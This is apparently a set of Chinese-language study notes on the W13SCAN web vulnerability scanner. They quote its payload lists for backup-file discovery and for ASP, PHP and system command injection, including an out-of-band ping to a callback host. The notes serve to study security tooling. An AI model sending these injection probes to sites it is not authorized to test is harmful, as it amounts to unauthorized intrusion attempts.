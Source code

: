 
###### backup_file 基于文件的备份扫描
`W13SCAN/scanners/PerFile/backup_file.py`
对url动态生成 备份文件扫描
```python
 # http://xxxxx.com/index.php => index.php.bak index.bak index.rar
a, b = os.path.splitext(url)
if not b:
    return
payloads = []
payloads.append(a + ".bak")
payloads.append(a + ".rar")
payloads.append(a + ".zip")
payloads.append(url + ".bak")
payloads.append(url + ".rar")
payloads.append(url + ".zip")
```

###### command_asp_code asp代码注入
`W13SCAN/scanners/PerFile/command_asp_code.py`  
只支持回显型的asp代码注入  

payload  
```python
_payloads = [
    'response.write({}*{})'.format(randint1, randint2),
    '\'+response.write({}*{})+\''.format(randint1, randint2),
    '"response.write({}*{})+"'.format(randint1, randint2),
]
```

###### command_php_code php代码注入
`W13SCAN/scanners/PerFile/command_php_code.py`

如果不是php的直接返回 是php的才进行处理  

payload print MD5值  
```python
_payloads = [
    "print(md5({}));".format(randint),
    ";print(md5({}));".format(randint),
    "';print(md5({}));$a='".format(randint),
    "\";print(md5({}));$a=\"".format(randint),
    "${{@print(md5({}))}}".format(randint),
    "${{@print(md5({}))}}\\".format(randint),
    "'.print(md5({})).'".format(randint)
]
```


###### command_system 系统命令注入  
`W13SCAN/scanners/PerFile/command_system.py`  


定义了 一个字典  
执行的命令 和可以匹配的回显  
如果是windows的机器那么就去掉 echo的  
如果是无回显使用反连平台  
`reverse_payload = "ping -nc 1 {}".format(fullname)`  
